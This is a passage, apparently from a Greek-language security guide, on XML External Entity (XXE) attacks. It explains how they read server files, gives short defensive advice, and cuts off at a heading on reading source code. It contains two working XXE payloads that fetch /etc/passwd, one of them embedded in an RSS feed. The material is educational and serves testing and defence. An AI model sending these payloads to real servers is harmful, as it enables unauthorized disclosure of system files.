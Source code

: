 ```xml
<description>Test Post</description>
<author>author@example.com</author>
<pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```
### Διάβασμα αρχείου

Η επίθεση XML External Entity (XXE) εκμεταλλεύεται την αδυναμία επεξεργασίας εξωτερικών οντοτήτων XML από τον εξυπηρετητή. Με αυτήν την επίθεση, μπορείτε να διαβάσετε αρχεία από το σύστημα αρχείων του εξυπηρετητή.

Για να εκτελέσετε αυτήν την επίθεση, πρέπει να δημιουργήσετε ένα XML αίτημα που περιέχει μια εξωτερική οντότητα που αναφέρεται σε ένα αρχείο που θέλετε να διαβάσετε. Ο εξυπηρετητής θα προσπαθήσει να επεξεργαστεί την οντότητα και, αν επιτύχει, θα επιστρέψει το περιεχόμενο του αρχείου.

Για να προστατευθείτε από αυτήν την επίθεση, μπορείτε να απενεργοποιήσετε την επεξεργασία εξωτερικών οντοτήτων XML στις ρυθμίσεις του εξυπηρετητή. Επίσης, πρέπει να επιβεβαιώνετε την εγκυρότητα των εισερχόμενων δεδομένων και να περιορίζετε την πρόσβαση σε ευαίσθητα αρχεία.

Παρακάτω παρουσιάζεται ένα παράδειγμα XML αιτήματος που εκμεταλλεύεται την επίθεση XXE για να διαβάσει ένα αρχείο `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

Αν ο εξυπηρετητής είναι ευάλωτος σε αυτήν την επίθεση, θα επιστραφεί το περιεχόμενο του αρχείου `/etc/passwd`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```
### Διάβασμα πηγαίου κώδικα
